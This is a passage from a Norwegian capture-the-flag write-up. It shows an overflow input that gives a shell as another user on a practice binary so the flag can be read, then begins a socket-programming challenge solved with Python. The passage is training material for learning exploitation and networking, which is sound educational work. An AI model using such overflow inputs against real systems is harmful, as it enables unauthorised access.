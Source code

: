 Vi kjører programmet vårt med inputet, og det gir oss shell som `basic4` brukeren, og vi kan da lese flagget med `cat FLAGG`.
```console
login@corax:~/1_grunnleggende/4_overflow$ ./overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHBBBBBBBBBBBBBBBBBBBBBBBB000000

$ id
uid=1004(basic4) gid=1000(login) groups=1000(login)
```


# 1.5_nettverk
Denne oppgaven består av å kommunisere med en server, og har 3 steg.
Vi kan koble til serveren med følgende python kode:
```python
import socket

TCP_IP = "127.0.0.1"
TCP_PORT = 10015

conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn.connect((TCP_IP, TCP_PORT))
print(conn.recv(4096).decode("utf-8"))
```
{: .nolineno }

## Steg 1
Vi får tilbake meldingen
```
Dette er en grunnleggende introduksjon til nettverksprogrammering.
Når du har åpnet ti nye tilkoblinger til denne serveren vil du få videre instruksjoner på denne socketen.
```

Vi må dermed åpne 10 nye tilkoblinger til serveren, så vi kan f.eks lage en liste som holder på all tilkoblingene.
```python
a = []
for i in range(10):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TCP_IP, TCP_PORT))
    a.append(s)
print(conn.recv(4096).decode("utf-8"))
```
{: .nolineno }

## Steg 2
Ny melding:
```
Du vil nå få tilsendt et 32-bits heltall i `network byte order` i hver av de ti andre sesjonene.
Summer alle, og send resultatet tilbake på denne socketen.
Det er mange måter å konvertere data på. En av dem er `struct.unpack`.
```
Hver tilkobling vi la til i lista vil få tilsendt et heltall som vi skal summere. `network byte order` refererer til `big-endian`. Vi kan unpacke tallet vi får tilsendt med `struct.unpack('>I', <data>)`.
